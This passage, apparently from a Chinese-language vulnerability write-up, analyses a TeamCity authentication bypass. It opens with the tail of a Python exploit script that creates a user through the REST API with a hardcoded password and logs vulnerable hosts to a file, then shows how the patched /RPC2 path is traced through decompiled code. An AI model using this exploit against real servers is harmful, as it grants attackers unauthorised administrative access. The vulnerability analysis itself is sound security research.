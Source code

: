 ```python
        }
        try:
            response = self.session.post(f"{self.url}/app/rest/users", headers=headers, json=creds, timeout=10)
            if response.status_code == 200:
                print(f"{Green}[+] {Yellow}{self.url}/login.html {Green}[{uname}:@H454NSec]{Color_Off}")
                with open("vulnerable.txt", "a") as o:
                    o.write(f"[{uname}:@H454NSec] {self.url}\n")
        except Exception as err:
            pass
```

## 三、漏洞分析

### 3.1 找漏洞代码位置

获取代码：将上面下载的两个exe文件直接使用解压工具解压，就可以得到安装后的代码文件夹

![image.png](assets/1699929434-644e663b371bb71e1658ab38bf2d3b47.png)

![image.png](assets/1699929434-cec3557cbcdccec708eda8cb2a463707.png)

补丁包里面是禁止访问/\*\*\\/RPC2这个路径。所以就从这里下手，进行查找。

使用java包反编译工具：jd-gui-1.6.6.jar，将/TeamCity-2023.05.3/webapps/ROOT/WEB-INF/lib/web.jar，这个文件拖到工具中即可查看反编译看代码了。使用搜索功能查找/RPC2。定位到代码位置：jetbrains.buildServer.controllers.XmlRpcController。
